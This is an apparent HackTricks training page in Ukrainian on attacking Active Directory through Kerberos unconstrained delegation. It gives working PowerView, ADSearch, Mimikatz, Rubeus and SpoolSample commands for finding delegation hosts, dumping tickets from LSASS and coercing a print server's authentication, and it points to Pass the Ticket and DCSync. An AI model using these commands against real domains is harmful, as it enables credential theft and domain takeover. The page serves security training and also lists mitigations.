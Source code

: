 # Unconstrained Delegation

{{#include ../../banners/hacktricks-training.md}}

## Unconstrained delegation

Це функція, яку адміністратор домену може встановити для будь-якого **комп'ютера** в домені. Тоді, щоразу, коли **користувач входить** на комп'ютер, **копія TGT** цього користувача буде **надіслана всередині TGS**, наданого DC **і збережена в пам'яті в LSASS**. Отже, якщо у вас є привілеї адміністратора на машині, ви зможете **вивантажити квитки та видавати себе за користувачів** на будь-якій машині.

Отже, якщо адміністратор домену входить на комп'ютер з активованою функцією "Unconstrained Delegation", і у вас є локальні адміністративні привілеї на цій машині, ви зможете вивантажити квиток і видавати себе за адміністратора домену будь-де (підвищення привілеїв домену).

Ви можете **знайти об'єкти комп'ютерів з цим атрибутом**, перевіряючи, чи атрибут [userAccountControl](<https://msdn.microsoft.com/en-us/library/ms680832(v=vs.85).aspx>) містить [ADS_UF_TRUSTED_FOR_DELEGATION](<https://msdn.microsoft.com/en-us/library/aa772300(v=vs.85).aspx>). Ви можете зробити це за допомогою LDAP-фільтра ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’, що робить powerview:
```bash
# List unconstrained computers
## Powerview
## A DCs always appear and might be useful to attack a DC from another compromised DC from a different domain (coercing the other DC to authenticate to it)
Get-DomainComputer –Unconstrained –Properties name
Get-DomainUser -LdapFilter '(userAccountControl:1.2.840.113556.1.4.803:=524288)'

## ADSearch
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem

# Export tickets with Mimikatz
## Access LSASS memory
privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way

# Monitor logins and export new tickets
## Doens't access LSASS memory directly, but uses Windows APIs
Rubeus.exe dump
Rubeus.exe monitor /interval:10 [/filteruser:<username>] #Check every 10s for new TGTs
```
Завантажте квиток адміністратора (або користувача-жертви) в пам'ять за допомогою **Mimikatz** або **Rubeus для** [**Pass the Ticket**](pass-the-ticket.md)**.**\
Більше інформації: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**Більше інформації про неконтрольовану делегацію на ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Примусова аутентифікація**

Якщо зловмисник зможе **зламати комп'ютер, дозволений для "Неконтрольованої делегації"**, він може **обманути** **сервер друку**, щоб **автоматично увійти** на нього, **зберігаючи TGT** в пам'яті сервера.\
Тоді зловмисник зможе виконати **атаку Pass the Ticket, щоб видавати себе** за обліковий запис комп'ютера сервера друку.

Щоб змусити сервер друку увійти на будь-яку машину, ви можете використовувати [**SpoolSample**](https://github.com/leechristensen/SpoolSample):
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
Якщо TGT отримано від контролера домену, ви можете виконати [**DCSync attack**](acl-persistence-abuse/index.html#dcsync) і отримати всі хеші з DC.\
[**Більше інформації про цю атаку на ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

Знайдіть тут інші способи **примусити аутентифікацію:**

{{#ref}}
printers-spooler-service-abuse.md
{{#endref}}

### Зменшення ризиків

- Обмежте входи DA/Admin до конкретних служб
- Встановіть "Обліковий запис є чутливим і не може бути делегований" для привілейованих облікових записів.

{{#include ../../banners/hacktricks-training.md}}
